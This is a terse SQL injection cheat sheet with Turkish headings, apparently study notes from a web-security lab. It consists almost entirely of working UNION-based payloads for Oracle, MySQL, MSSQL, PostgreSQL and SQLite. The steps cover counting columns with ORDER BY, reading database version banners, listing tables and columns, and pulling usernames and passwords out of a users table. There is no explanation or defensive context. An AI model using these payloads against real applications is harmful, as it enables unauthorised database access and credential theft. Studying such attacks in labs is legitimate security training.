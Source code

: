 # UNION attacks

### Tanım
- SELECT * FROM products WHERE category = 'Gifts' ...

- ==> +UNION+SELECT+NULL,NULL,NULL-- ==> ' order by 3-- --> ok

-------------------------------------

### UNION (Oracle)
- ' ORDER BY 1--
- ' UNION SELECT 'abc', 'def' FROM dual-- ==> ' order by 2-- --> ok
- ' UNION SELECT BANNER, NULL FROM v$version-- ==> versiyon öğrenme
- '+UNION+SELECT+table_name,NULL+FROM+all_tables-- 
    - ==> USERS_ABCDEF
- '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'-- 
    - ==> USERNAME_ABCDEF PASSWORD_ABCDEF
- '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--

### UNION (MySQL, MSSQL (Microsoft SQL Server), PostgreSQL, SQLite)
- ' ORDER BY 1--
- ==> ' UNION SELECT 'abc', 'def'#
- ==> ' UNION SELECT @@version, NULL#
- ==> '+UNION+SELECT+'abc','def'--
- ==> '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
- ==> '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
- ==> '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--

-------------------------------------

- ==> ' UNION SELECT table_name, NULL FROM all_tables--
- ==> ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS'--
- ==> ' UNION SELECT username, password FROM users--
- ==> ' UNION SELECT NULL, username || '~' || password FROM users--
